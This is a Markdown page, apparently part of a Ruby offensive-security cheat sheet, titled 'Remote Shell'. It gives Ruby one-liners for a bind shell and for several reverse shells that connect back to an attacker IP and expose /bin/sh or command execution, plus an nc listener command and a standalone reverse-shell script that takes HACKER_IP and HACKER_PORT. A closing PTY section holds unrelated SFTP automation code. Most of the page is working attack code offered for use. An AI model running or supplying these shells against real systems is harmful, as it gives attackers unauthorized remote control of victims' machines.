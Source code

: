 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't whant to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you what it as more flixable script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```
- To listen 
```
ruby ncat.rb -lvp 443 
```

- To connect 
```
ruby ncat.rb -cv -r RHOST -p 443
```

## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind][1] and [reverse][2] shells scripts written by [Hood3dRob1n][3] on github . The bind shell requires authentication while reverse is not.




## Pseudo Terminal (PTY)
To be fixed
```ruby
# https://gist.github.com/kwent/e2c34c2dfd01a194a49a
# http://ruby-doc.org/stdlib-2.2.0/libdoc/pty/rdoc/PTY.html

require 'pty'
require 'expect'
PTY.spawn('sftp username@sftp.domain.com:/uploads') do |input, output|
  # Say yes to SSH fingerprint
  input.expect(/fingerprint/, 2) do |r|
    output.puts "yes" if !r.nil?
    # Enter SFTP password
    input.expect(/password/, 2) do |r|
      output.puts 'your_sftp_password' if !r.nil?
      input.expect(/sftp/) do
        # List folders and files in `/uploads`
        output.puts 'ls'
        # Check if folder named `foo` exist
        input.expect(/foo/, 1) do |result|
          is_folder_exist = result.nil? ? false : true
          # Create `foo` folder if does'nt exist
          output.puts "mkdir foo" if !is_folder_exist
          # Change directory to `foo`
          output.puts "cd foo"
          # Upload `/path/to/local/foo.txt` in `foo` folder as `foo.txt`
          output.puts "put /path/to/local/foo.txt foo.txt"
          # Exit SFTP
          output.puts "exit"
        end
      end
    end
  end
end
```



<br><br><br>
---
[1]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb
[2]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb
[3]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells